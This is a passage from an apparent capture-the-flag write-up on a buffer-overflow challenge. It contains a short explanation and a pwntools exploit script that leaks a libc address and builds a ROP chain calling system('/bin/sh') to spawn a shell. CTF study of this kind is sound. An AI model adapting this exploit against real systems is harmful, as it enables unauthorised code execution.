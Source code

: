 However, it is worth noting that overflowing so many bytes will inevitably damage the program itself, leading to a crash (such as modifying pointers like tcb, dtv, self), so we can first use gdb to find the offset when debugging locally, and then calculate `libc_base`.

After obtaining `libc_base`, we can proceed with the overflow. Even if the program crashes, we have already reached `system("/bin/sh")` and can successfully obtain the flag.

Exp:

```python
from pwn import *

context.log_level = 'DEBUG'
context.arch = 'amd64'
context.os = 'linux'

sh = process('./a.out')
# sh = remote('chuj.top', 38068)
elf = ELF('./a.out')
libc = ELF('./libc-2.31.so')

pop_rdi_ret_addr = 0x401363
test_thread_addr = elf.sym['test_thread']
ret_addr = 0x040101a

offset = 2152  # 2152, 216

payload = b'A'*(0x20)

sh.sendline(payload)
sh.recvline()
b = u64(sh.recvuntil(b'\x0a', drop=True).ljust(8, b'\x00'))
b = str(hex(b)) + '00'
b = int(b, 16)
print(hex(b))

libc_offset = 0x7f7cde389700 - 0x7f7cde38d000
libc_base = b - libc_offset
system_addr = libc_base + libc.sym['system']
bin_sh_addr = libc_base + next(libc.search(b'/bin/sh'))
gdb.attach(sh, 'b *0x401363')
payload = b'A'*(0x30-0x08)
payload += p64(0xdeadbeef)
payload += p64(0)
# payload += p64(ret_addr)
payload += p64(pop_rdi_ret_addr)
payload += p64(bin_sh_addr)
payload += p64(system_addr+3)
# payload += p64(ret_addr)
"""payload += p64(0x040135c) + p64(0) + p64(0) + p64(0) + p64(0)
payload += p64(0xe6c7e + libc_base)"""
payload += b'\x00'*(offset-len(payload)) + p64(0xdeadbeef)
sh.sendline(payload)
sh.interactive()
```

